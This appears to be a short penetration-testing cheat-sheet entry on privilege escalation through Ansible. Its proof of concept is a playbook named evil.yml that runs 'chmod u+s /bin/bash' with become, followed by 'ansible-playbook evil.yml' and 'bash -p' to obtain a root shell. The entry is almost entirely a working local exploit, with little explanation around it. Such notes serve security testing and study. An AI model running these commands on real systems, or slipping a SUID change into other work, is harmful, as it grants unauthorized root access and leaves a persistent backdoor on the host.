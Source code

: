 # Ansible
>If an ansible file is loaded by a root process : **Privilege Escalation**

## PoC
```bash
# Create a .yml file just like the other one
nano evil.yml
# Content :
- hosts: localhost
  tasks:
    - name: RShell
      command: chmod u+s /bin/bash
      become: true

# save
ls -lah /bin/bash
ansible-playbook evil.yml
bash -p
# root
```
